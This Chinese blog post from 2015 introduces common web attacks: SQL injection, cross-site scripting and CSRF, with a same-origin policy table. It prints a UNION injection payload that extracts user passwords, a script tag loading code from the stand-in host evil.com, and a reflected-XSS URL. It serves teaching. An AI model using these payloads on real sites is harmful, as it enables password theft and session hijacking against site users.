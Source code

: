title: 常见的Web攻击方式
date: 2015-10-06 17:20:46
categories:
- Hexo Blog
tags:
- Hexo
---
这里主要介绍一些常见的web网站攻击的方式，以及概念，并不涉及如何防范， 关于防范后续再做记录

### 1. SQL注入攻击
通过在请求中加入SQL语句片段， 在后端拼接参数时候，会拼装到待执行的SQL中,来查询出更多数据
如：
```
 select username, email, desc from users where id=1;
```
在用户提交请求时候，会带入参数 ?id=1,来获取相应数据。若是不发用户会在参数中添加 :
```
?id=1 union select password, 1, 1 from users, 
```
通过以上参数将组成新的SQL语句如下： 
```
select username, email, desc from users where id=1 union select password,1,1 from users;
```
通过此SQL就能查出用户的密码了

### 2.XSS跨站脚本攻击(Cross Site Script)
发生在目标网站中目标用户的浏览器中，当用户浏览器渲染整个HTML文档的过程中，出现了不被预期的脚本指令并执行时， XSS就会发生。
一般通过注入类似下面的代码引入第三方域上的脚本资源：
```
<script src="http://www.evil.com/xss.js"></script>
```
以上方式有原因如下：

1. 攻击代码容易控制
2. 利用script标签本身就可以嵌入第三方资源的特性，就突破了浏览器的同源策略
#### XSS的类型
1. **反射性XSS(非持久型XSS)**: 发出请求时，XSS代码出现在URL中，作为输入提交到服务器，服务器解析后在响应内容中出现XSS代码， 最后浏览器解析执行。如：若服务器端将参数x不做任何过滤就直接输出
    ```
    http://www.test.com?x=<script>alert(1)</script>
    ```
    那么```<script>alert(1)</script>```就会输出到响应体中，浏览器就会解析执行
2. **存储型XSS(持久型XSS)**
3. **DOM XSS**
##### 浏览器的同源策略
    同源策略： 不同域的客户端脚本在没有明确授权的情况下，不能读写对方的资源
1. 如何区分不同域域同域栈 
    同域： 需要满足**同协议，同域名， 同端口**，才能叫做同域： 如
    基准域`http://www.test.com`

    | 站点 | 是否同域| 原因
    |------|---------|-----
    |https://www.test.com | 不同域 | 协议不同， http与https是不同的协议
    |http://blog.test.com|不同域|域名不同，blog与www是不同的子域
    |http://test.com |不同域|域名不同，顶级域域www子域不是一个概念
    |http://www.test.com:8080|不同域|端口不同，8080与默认80为不同端口
    |http://www.test.com/blog/|同域|满足
### 3. CSRF 跨站请求伪造
    通常在使用XSS时，需要目标站点有XSS漏洞，也就是可以执行请求中的脚本代码。若是无XSS漏洞，则无法完成攻击。而CSRF就是在不同域目标网站的站点B中，构造一个访问目标站点的请求，而诱使用户进入构造的B站点中，发起伪造的请求。
    起其好处是： 可以做到无脚本Javascript参与，轻松绕过不同域的跨域请求问题。